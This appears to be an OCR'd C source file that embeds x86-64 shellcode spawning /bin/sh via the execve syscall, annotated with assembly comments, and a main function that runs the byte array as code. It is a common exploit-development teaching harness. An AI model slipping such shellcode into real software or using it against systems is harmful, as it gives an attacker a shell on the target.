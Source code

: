 <strong>#include &lt;string.h&gt; </strong>

<strong>&nbsp;</strong>

<strong>char code[] = </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x55”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /* push&nbsp;&nbsp; %rbp */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x48\x89\xe5”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /* mov&nbsp;&nbsp;&nbsp; %rsp,%rbp */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x48\xc7\xc2\x00\x00\x00\x00”&nbsp; /* mov&nbsp;&nbsp;&nbsp; $0x0,%rdx */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x48\xc7\xc6\x00\x00\x00\x00”&nbsp; /* mov&nbsp;&nbsp;&nbsp; $0x0,%rsi */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x48\xbf\x2f\x62\x69\x6e\x2f”&nbsp; /* movabs $0x68732f6e69622f,%rdi */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x73\x68\x00” </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x57”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/* push&nbsp;&nbsp; %rdi */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x48\x89\xe7”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /* mov&nbsp;&nbsp;&nbsp; %rsp,%rdi */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x48\xc7\xc0\x3b\x00\x00\x00”&nbsp; /* mov&nbsp;&nbsp;&nbsp; $0x3b,%rax */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x0f\x05”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /* syscall */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x5d”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /* pop&nbsp;&nbsp;&nbsp; %rbp */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\xc3”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /* retq */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x90”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /* nop */ </strong>

<strong>&nbsp;&nbsp;&nbsp; “\x00”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /* end of string marker added */ ; </strong>

<strong>&nbsp;</strong>

<strong>int main(int argc, char **argv) </strong>

<strong>{ </strong>

<strong>&nbsp;&nbsp; ((void(*)( ))code)(); } </strong>
